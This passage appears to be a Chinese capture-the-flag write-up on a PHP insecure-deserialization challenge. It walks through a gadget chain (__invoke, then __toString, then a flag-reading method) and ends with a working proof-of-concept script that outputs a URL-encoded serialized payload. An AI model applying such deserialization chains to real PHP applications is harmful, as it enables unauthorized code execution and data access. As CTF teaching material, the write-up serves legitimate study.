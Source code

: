 在`start`类中，我们看到

```Php
public function get1()
{
    $s1 = $this->start1;
    $s2 = $this->start2;
    $s1($s2);
}
```

我们只要让`$this->start1 = new cat()`同时 `$htis->start2 = new test2()`即可，因为我们之前已经实例化了一个`start`类，所以用跟前面同样的方法我们就可以达到目的

这样`$s1($s2)`就会变成一个`cat`类被当成一个函数并将一个`test2`类当作参数传入，从而达到调用`__invoke()`函数的目的，然后接着去调用`__toString()`

再看`__toString()`，里面`$this->a`调用了`flag`类中的`gatFlag()`方法，还是之前的思路，将`$this->a`实例化为`flag`的一个类

得到最终的poc

```php
<?php
class gg
{
    private $gg;
    public function __construct()
    {
        $this->gg = new start();
    }
}
class start
{
    private $start1;
    private $start2;
    public function __construct()
    {
        $this->start1 = new cat();
        $this->start2 = new test2();
    }
}

class cat{}

class test2
{
    private $a;
    public function __construct()
    {
        $this->a = new flag();
    }
}

class flag{}

$test = new gg();
echo urlencode(serialize($test));
?>
```
